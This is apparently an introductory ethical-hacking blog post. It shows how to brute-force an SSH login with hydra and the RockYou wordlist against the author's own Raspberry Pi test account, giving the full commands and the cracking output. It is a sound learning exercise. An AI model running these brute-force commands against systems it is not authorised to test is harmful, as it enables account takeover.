 ```yaml
---
title: Introduction to Ethical Hacking
date: 2023-03-26 18:28:17 +03:00
tags: [introduction, "ethical hacking", hacking, kali, linux, "brute-force attack"]
description: This blog post will introduce ethical hacking with Kali Linux. We'll define ethical hacking, discuss Kali Linux, and cover basic techniques such as reconnaissance and vulnerability scanning. By the end, readers will have a better understanding of using Kali Linux as a tool in ethical hacking.
image: /ethical-hacking-intro/ethical-hacking-intro-cover.png
---
```


# Ethical Hacking

In this series of blog posts, let me walk you through a path of a beginning
ethical hacker. It's mainly meant for me to learn, but I will be happy if this
helps someone else to get down on the path of an ethical hacker as well.

## Kali Linux

Kali Linux is a Linux distribution that comes with a set of tools useful for
ethical hacking. Go ahead and install it, preferably in a virtual machine.

Follow the [official website][1] to install the Kali Linux.

[1]: https://www.kali.org/

## SSH Brute-Force Dictionary Attack

Instead of trying manually one password after another, let's automate that
process. We will create a list of possible passwords and pass that list to a
smart program that will try all those passwords for us.

On Kali Linux there is a program called `hydra`. Kali Linux also comes with a
list of possible passwords - RockYou list [2] (comes from the incident in 2009).
The file is located in `/usr/share/wordlists/rockyou.txt.gz` and contains 14
million records. We will use this list to crack a Linux user account.

First of all unzip the file with passwords (also called a dictionary).

`gunzip /usr/share/wordlists/rockyou.txt.gz`

> You can try to find your passwords in the list using `grep`. If you find some
> of them there, then it would be the best to change those immediately.

Now let's use the `hydra` to crack the password. For testing purposes I have
created on my Raspberry Pi 3 new account `dummy` with password `winniethepooh`.

`useradd dummy`

Next, run the `hydra` to crack the password. This time we are not going to crack
the username, instead we will pass the username to `hydra` manually to simplify
and speed up the process.

`sudo hydra -l "dummy" -P /usr/share/wordlists/rockyou.txt <ip_address> ssh`

This might take a while, because Linux is trying to slow potentional attacker
down by adding extra timeout when logging in over SSH. After couple moments you
get the first output with statistics:

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo hydra -l "dummy" -P /usr/share/wordlists/rockyou.txt pi3 ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in
military or secret service organizations, or for illegal purposes (this is
non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-03
13:34:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is
recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries
(l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://pi3:22/
[STATUS] 147.00 tries/min, 147 tries in 00:01h, 14344255 to do in 1626:20h, 16
active
```

You can notice in the printout that the current speed is 147 passwords per
minute and the time to finish is 1626 hours (68 days), therefore it might be
better to use smaller dictionary for testing purposes.

I have reduced the dictionary size to 200 records (but included the
`winniethepooh`, to see how it works).

```bash
cat /usr/share/wordlists/rockyou.txt | \
head -n 100000 | \
sort --random-sort | \
head -n 200 | \
sed '1s/.*/winniethepooh/' | \
sort --random-sort > ~/wordlist.txt`
```

Now it is possible to run `hydra` again with the smaller wordlist. After two
minutes at latest we should crack the password.

`sudo hydra -l "dummy" -P ~/wordlist.txt <ip_address> ssh`

After a moment we got the result with correct password.

```bash
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200),
~13 tries per task
[DATA] attacking ssh://pi3:22/
[STATUS] 97.00 tries/min, 97 tries in 00:01h, 104 to do in 00:02h, 16 active
[22][ssh] host: pi3   login: dummy   password: winniethepooh
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-04-03
14:02:29
```

This was the first introductory blog post about ethical hacking. Thanks for
reading!

[2]: https://en.wikipedia.org/wiki/RockYou